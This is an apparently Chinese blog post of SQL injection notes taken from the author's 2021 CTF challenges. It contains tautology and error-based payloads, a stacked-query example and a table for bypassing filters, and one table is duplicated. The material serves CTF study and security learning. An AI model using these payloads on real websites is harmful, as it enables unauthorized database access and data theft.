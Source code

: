 ```yaml
---
title: sql注入分享
comments: true
hide: false
date: 2021-05-26 13:43:04
urlname: sqlinjection
updated:
password:
tags:
categories:
---
```






<!-- more -->

今年本人参加的CTF中记录的sql题目，由于可能有多种解，这里列出本人解法仅供参考

| 比赛-题目名称            | 注入类型   | 详细情况                                               |
| ------------------------ | ---------- | ------------------------------------------------------ |
| MTCTF-sql                | 盲注       | 布尔型，同表查询                                       |
| 国赛CISCN-easy_sql       | 盲注，报错 | sqlmap一把梭，布尔型/延时注入/报错注入，最后无列名注入 |
| 红帽杯-WebsiteManger     | 盲注       | 布尔型(异或)/延时注入                                  |
| 红明谷-happysql          | 盲注       | 布尔型(正则)，无列名注入                               |
| DASCTF三月赛-bestDB      | 联合注入   | load_file()                                            |
| V&NCTF-realezjvav        | 盲注       | 延时注入(笛卡尔积)                                     |
| HGAME-200OK!             | 联合注入   | 基础SQL注入                                            |
| HGAME-Liki-Jail          | 盲注       | 延时注入                                               |
| 春秋杯新春欢乐赛-按F注入 | 联合注入   | Pgsql，延时注入(也许)/信息外带/数据库外联              |

打个广告，各比赛的WP，有需要的师傅可以看看

[春秋杯2021新春欢乐赛一道题——按F注入 对pgsql的研究](https://err0r.top/article/cqb2021/)

[V&N2021公开赛](https://err0r.top/article/VN2021ctf/)

[SQL无列名注入](https://err0r.top/article/mardasctf/)

[红帽杯2021](https://err0r.top/article/redhat2021/)

[2021CISCN-WP](https://err0r.top/article/ciscn2021/)

---

常用函数
1. version()——MySQL版本
2. user()——用户名
3. database()——数据库名
4. @@datadir——数据库路径
5. @@version_compile_os——操作系统版本

---

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

---

过滤情况

过滤select

比较劲爆，如果有回显可以报错注入查出简单信息

```sql
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
```

`user()`/`database()`/`version()`

- 但这不行，可以利用堆叠注入绕过过滤

```sql
-1';show tables#
```

然后利用预编译方式查数据

经典题目：[2019强网杯-随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

- 或者`alter`改表名，然后万能密码登陆出结果(如果可回显的话)

- 据说web端过滤也许可以preg_match回溯限制(有的情况)

- 同表的话可以同表查询

  盲注字段名利用`left(column,0)`

  当存在字段时返回True

基本过滤

|      过滤      |      替代方法       |
| :------------: | :-----------------: |
|      and       |          &          |
|       or       |         \|          |
|     [空格]     |    /**/或()或%0a    |
|       #        |         --+         |
|    substr()    | mid()、substring()  |
|    ascii()     | hex()、bin()、ord() |
|    sleep()     |     benchmark()     |
| group_concat() |     concat_ws()     |
|      <、>      |     greatest()      |
|   limit n,m    |  limit m offset n   |

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

移位溢注

知道表名不需要知道字段名
